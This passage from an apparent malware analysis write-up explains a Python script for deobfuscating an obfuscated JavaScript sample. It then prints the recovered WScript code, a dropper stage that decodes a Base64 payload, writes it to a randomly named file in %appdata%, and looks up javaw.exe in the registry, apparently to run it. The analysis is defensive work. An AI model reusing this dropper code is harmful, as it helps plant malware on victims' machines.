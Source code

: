 The __reverse_string(s)__ function reverses a given string, simulating the effect of the __.mouse()__ function from the JavaScript file, which was used in the original obfuscation process as well. The __replace_placeholders(s)__ function replaces specific placeholders such as __—{0}, {1}, and {2}__ within the string with their corresponding values. These replacements are important for restoring the original content before any further decoding are taken place.

The __decode_hex(encoded_str)__ function attempts to decode a hexadecimal string into its UTF-8 representation. If the string is not valid hexadecimal, it returns the original string without modification. Similarly, the __decode_base64(encoded_str)__ function tries to decode a Base64 encoded string, returning the original string if decoding fails.

The main decoding function, __decode_s0fStu(encoded_str)__, orchestrates the entire decoding process. It first calls replace_placeholders to manage any placeholders within the string. Next, it identifies and reverses any substrings that were encoded using the __.mouse()__ function. Finally, it attempts to decode the modified string using both hexadecimal and Base64 decoding functions.

The __save_to_file(data, filename)__ function is responsible for saving the decoded string into a specified text file. A sample obfuscated string, s0fStu_str, is defined and then processed by the __decode_s0fStu__ function. The final decoded output is saved to __decoded_output.txt__, and that is it.


### Python Code: Deobfuscation Analysis Results

The Python code yielded neat results, demonstrating the benefits of understanding programming languages in situations like this. While many AI tools are available today that can assist in understanding the nature of obfuscation, my experience has shown that tools like ChatGPT may not effectively deobfuscate malicious code. This limitation arises because manual intervention is often necessary; some obfuscation techniques rely on string manipulation and replacements, which can be time-consuming. CyberChef can be a valuable resource, but it is crucial to utilise the tools you are most comfortable with. In this case, Python has been employed as a tool, yielding reasonable results, as demonstrated bellow.

```javascript

    var re = new RegExp("!>-", "g");
        longText = longText.replace(re, "A");
    var wshShell = WScript.CreateObject("WScript.Shell");
    var tempdir = wshShell.ExpandEnvironmentStrings("%temp%");
    var appdatadir = wshShell.ExpandEnvironmentStrings("%appdata%");
    var r = Math.random().toString(36).replace(/[^a-z]+/g, '').substr(0, 10);
    var stubpath = appdatadir + "\\" + r + ".txt";
    var decoded = decodeBase64(longText);
    writeBytes(stubpath, decoded);
    var fso = WScript.CreateObject("Scripting.FileSystemObject");
    var text = "";

    try {
        text = wshShell.RegRead("HKLM\\SOFTWARE\\Wow6432Node\\JavaSoft\\Java Runtime Environment\\CurrentVersion");
        text = wshShell.RegRead("HKLM\\SOFTWARE\\Wow6432Node\\JavaSoft\\Java Runtime Environment\\" + text + "\\JavaHome");
    } catch (err) {}

    try {
        if (text == "") {
            text = wshShell.RegRead("HKLM\\SOFTWARE\\JavaSoft\\Java Runtime Environment\\CurrentVersion");
            text = wshShell.RegRead("HKLM\\SOFTWARE\\JavaSoft\\Java Runtime Environment\\" + text + "\\JavaHome");
            if (text != "") {
                text = text + "\\bin\\javaw.exe";
            }
        } else {
            text = text + "\\bin\\javaw.exe";
        }
```